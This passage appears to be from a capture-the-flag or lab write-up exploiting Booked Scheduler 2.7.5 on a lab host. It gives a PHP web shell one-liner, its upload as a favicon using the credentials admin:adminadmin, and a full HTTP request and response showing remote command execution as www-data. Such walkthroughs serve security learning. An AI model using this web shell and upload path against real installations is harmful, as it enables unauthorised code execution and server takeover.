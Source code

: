 ```bash
Booked Scheduler 2.7.7 - Authenticated Directory Traversal                                                                                                                                                | php/webapps/48428.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a metasploit module available exploiting a remote code execution vulnerability (`Booked Scheduler 2.7.5 - Remote Command Execution (Metasploit)`).  
However, we will perform a manual exploitation of this vulnerability.

## exploit
After reviewing the exploit we can break down the exploitation to the following steps.
1. create a simple `php` shell named `fav.ico` (file content: `<?php system($_REQUEST['cmd']); ?>`)
2. upload `fav.ico` via `http://192.168.126.64:8003/booked/Web/admin/manage_theme.php` as a favicon (to access the admin panel use the identified credentials `admin:adminadmin`)
3. Access the shell via crafted `GET` request

### `RCE` PoC request
```http
GET /booked/Web/custom-favicon.php?cmd=whoami HTTP/1.1
Host: 192.168.126.64:8003
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ad1a321tub0vkcugr0dsehmllh; new_version=v%3D2.7.5%2Cfs%3D1644593980
Connection: close
```

### `RCE` PoC response
```http
HTTP/1.1 200 OK
Date: Fri, 11 Feb 2022 15:58:31 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 9
Connection: close
Content-Type: text/html; charset=UTF-8

www-data
```

> Got a shell!
{: .prompt-info }
